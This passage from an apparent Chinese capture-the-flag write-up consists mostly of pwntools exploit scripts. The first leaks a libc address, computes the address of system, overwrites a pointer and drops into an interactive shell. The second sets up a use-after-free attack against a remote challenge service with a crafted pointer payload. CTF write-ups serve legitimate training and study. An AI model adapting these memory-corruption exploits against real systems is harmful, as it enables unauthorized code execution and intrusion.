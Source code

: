 ```python


cn.recvuntil('choise')

for i in range(263007):
	cn.sendline('4')

success("send done")
show()

while 1:
	data=cn.recv(4096)
	if '\x7f' in data:
		break
context.log_level = 'debug'
show()

data = cn.recvuntil('\n')[:-1]
success(data.encode('hex'))

atoi = u64(data+'\x00'*2)
system = atoi-libc.symbols['atoi']+libc.symbols['system']
success(hex(system))
cn.interactive()
edit(p64(system))

cn.interactive()

```


## pwn2

没什么花样的UAF，网上自己找教程吧。

```python
#coding=utf8
from pwn import *
context.log_level = 'debug'
context.terminal = ['terminator','-x','bash','-c']

local = 0

if local:
	cn = process('./p200')
	bin = ELF('./p200')
else:
	cn = remote('106.75.8.58', 12333)


def z(a=''):
	gdb.attach(cn,a)
	if a == '':
		raw_input()

cn.recvuntil('choose')
cn.sendline('3')
cn.recvuntil('choose')
cn.sendline('2')
cn.recvuntil('length')
cn.sendline('48')
sleep(0.2)
cn.sendline(p64(0x0602D50)*6)

```